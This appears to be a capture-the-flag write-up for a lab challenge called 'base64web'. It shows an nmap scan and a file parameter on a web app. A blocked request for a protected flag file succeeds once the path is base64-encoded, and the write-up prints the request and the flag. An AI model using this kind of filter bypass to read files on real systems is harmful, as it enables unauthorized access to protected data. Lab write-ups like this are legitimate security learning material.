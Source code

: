 ## base64web

nmap 10.10.0.195 --
port 8080 is open
it hosts a website with 4 subpages

* Encoder -- textarea form that encodes b64
* Decoder -- textarea form that decodes b64
* Dir -- shows a directory-listing of /secret/ which contains FLAG.TXT
* Dateien -- shows "hello.html"

- Dateien url looks like:
`http://10.10.0.195:8080/file/?file=hello.html`

- when you simply try `http://10.10.0.195:8080/file/?file=/secret/FLAG.TXT` you get:
`Dont even try THIS`

Since the challenge is called base64web and contains a b64 decoder and encoder you
can just try to encode `/secret/FLAG.TXT` with the b64 encoder
and then `http://10.10.0.195:8080/file/?file=L3NlY3JldC9GTEFHLlRYVA==`
you get `RE9SRjE4e1NFVlNSVk5aVDFWU1JreEJSeUVLfQo=`
and put it in the decoder
and get the flag:

### FLAG
DORF18{SEVSRVNZT1VSRkxBRyEK}
